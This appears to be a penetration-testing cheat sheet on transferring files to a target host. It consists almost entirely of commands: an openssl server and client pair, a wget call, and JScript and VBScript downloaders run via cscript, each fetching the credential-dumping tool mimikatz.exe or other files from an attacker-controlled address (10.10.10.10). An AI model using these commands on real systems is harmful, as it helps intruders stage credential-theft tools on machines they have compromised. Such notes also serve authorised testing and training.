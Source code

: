 `openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem`

`openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/mimikatz.exe`

`openssl s_client -connect 10.10.10.10:80 -quiet > mimikatz.exe`


## Web Browser

`:)`


## wget

`wget http://10.10.10.10:80/info.txt -O /tmp/info.txt`


## cscript wget.js

> cscript /nologo wget.js http://10.10.10.10/mimikatz.exe

```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
WScript.Echo(WinHttpReq.ResponseText);

/* To save a binary file use this code instead of previous line
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile("out.bin");
*/
```

Links:

https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl


## cscript wget.vbs

> cscript wget.vbs http://10.10.10.10/mimikatz.exe mimikatz.exe

```
Set args = WScript.Arguments

Url = args.Item(0)
File = args.Item(1)

dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", Url, False
xHttp.Send
 
with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile File, 2 '//overwrite
end with
```
